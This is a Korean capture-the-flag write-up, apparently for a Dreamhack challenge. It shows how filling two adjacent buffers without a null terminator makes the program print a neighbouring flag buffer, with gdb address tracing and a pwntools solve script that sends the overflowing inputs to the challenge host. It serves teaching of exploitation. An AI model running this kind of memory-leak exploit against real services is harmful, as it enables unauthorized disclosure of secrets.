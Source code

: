 `my_page.name`, `my_page.age`버퍼를 다 채울 경우 `\0(NULL)`이 없어서 `flag_buf`까지 읽을 수 있음

- 동적 분석
    1. `my_page.name`의 주소 확인
    2. `my_page.age`의 주소 확인
    3. `flag_buf`의 주소 확인

    #### 2.2.1 `my_page.name`의 주소 확인
    
    `b *main+190`: `my_page.name`을 읽어 들이는 `read`함수가 실행되는 부분에 브래이크를 설정

    `buf: 0xffffd2d0`에 저장됨을 확인

    #### 2.2.2 `my_page.age`의 주소 확인
    
    `b *main+229`: `my_page.age`을 읽어 들이는 `scanf`함수가 실행되는 부분에 브래이크를 설정

    입력값 : 2

    `0xffffd2b4 —▸ 0xffffd2e0 ◂— 2`에 저장됨을 확인
    
    #### 2.2.3 `flag_buf`의 주소 확인
    
    `b *main+321`: `flag_buf`을 읽어 들이는 `fread`함수가 실행되는 부분에 브래이크를 설정

    /flag 파일 내용 : test_flag

    `0xffffd2b0 —▸ 0xffffd2e4 ◂— 'test_flag\n'`에 저장됨을 확인

    ---

    `0xffffd2e4(flag_buf) - 0xffffd2d0(my_page.name) = 0x14`

    `0x14 = 0x10(my_page.name의 버퍼 크기) + 0x4(my_page.age의 버퍼 크기)`

## 3. 문제 풀이 코드

```
from pwn import *

r = remote('host3.dreamhack.games', 15568)

#input idx
r.sendline(b'3')

#input idx, input my_page.name, input my_page.age
r.sendline(b'1')
r.sendline('\x90'*16)
r.sendline(b'-1')

#input idx
r.sendline(b'2')

r.interactive()
```
`\x90*16`: `my_page.name` 버퍼를 아무 문자로 채움
`r.sendline(b'-1')`: `my_page.age`버퍼를 `ffffffff`로 채움

`r.sendline(b'2')`: `[ebp - 0x58]`주소부터 `\0`이 나올 때까지 문자열을 출력

- 코드 실행 이후
    
    플래그가 출력됨